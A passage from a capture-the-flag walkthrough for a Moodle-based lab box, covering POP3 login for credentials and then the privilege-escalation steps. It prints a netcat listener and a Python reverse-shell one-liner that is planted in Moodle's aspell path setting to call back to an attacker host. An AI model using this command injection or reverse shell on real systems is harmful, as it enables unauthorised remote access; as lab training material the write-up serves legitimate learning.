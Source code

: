 ### What is the next user you can find from doak?

### What is the users password?

After login to pop3 in first email has them in plaintext:

```bash
telnet <IP> 55007
USER doak
PASS g**t
LIST
RETR 1
```

user and password `dr_doak:4**!`

![SCREEN13](https://github.com/user-attachments/assets/ff251acc-4ae0-4f77-bad7-975fd192a184)

# Privilege Escalation

## Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

### Whats the kernel version?

Hint: Settings->Aspell->Path to aspell field, add your code to be executed. Then create a new page and 'spell check it'.

1. Set listener with netcat:

```bash
nc -lvnp 1234
```

- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: Skip DNS lookup
- `-p`: Specify the port number to listen on

2. Login to moodle with admin credentials `admin:x**!` from image, and search for '[spell](http://severnaya-station.com/gnocertdir/admin/search.php?query=spell)'. Change 'Spell engine' to 'PSpellShell' and put the below script into 'path to aspell':

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

![SCREEN17](https://github.com/user-attachments/assets/bc6cf2b7-97ce-44b8-8767-08a0b8084a1c)

3. Now when activate spellcheck on [some text](http://severnaya-station.com/gnocertdir/mod/forum/post.php?forum=1) to get reverse shell
